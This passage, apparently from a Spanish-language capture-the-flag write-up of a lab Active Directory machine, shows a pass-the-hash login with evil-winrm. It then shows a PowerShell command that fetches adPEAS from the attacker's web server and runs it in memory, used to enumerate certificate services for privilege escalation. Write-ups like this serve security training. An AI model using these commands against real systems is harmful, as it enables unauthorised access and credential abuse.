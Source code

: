 Verificaremos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.11.41 -u 'MANAGEMENT_SVC' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

<figure><img src="../../../.gitbook/assets/2487_vmware_W2EGEsXwQz.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration

Procederemos de realizar una enumeración del AD a través de la herramienta **adPEAS.ps1** que es un script de Powershell (parecido a winPEAS) pero en vez de buscar malas configuraciones de Windows, hace exactamente lo mismo pero en el entorno del AD.

Nos lo descargaremos en nuestra Kali, levantaremos un servidor web con Pyton y a través de IEX en el equipo Windows, lo importaremos en memoria.

```bash
wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1

python3 -m http.server 80

IEX (New-Object Net.WebClient).downloadString("http://10.10.14.19/adPEAS.ps1")

Invoke-adPEAS
```

<figure><img src="../../../.gitbook/assets/2488_vmware_XmvGm1oj2U.png" alt=""><figcaption></figcaption></figure>

Dentro del resultado del análisis nos encuentra información sobre _Active Directory Certificate Services_ en el cual nos reporta de posiblemente sea vulnerable pero es manegada por el usuario "ca\_operator@certified.htb".

<figure><img src="../../../.gitbook/assets/2489_vmware_5Y0RuR3qIe.png" alt=""><figcaption></figcaption></figure>
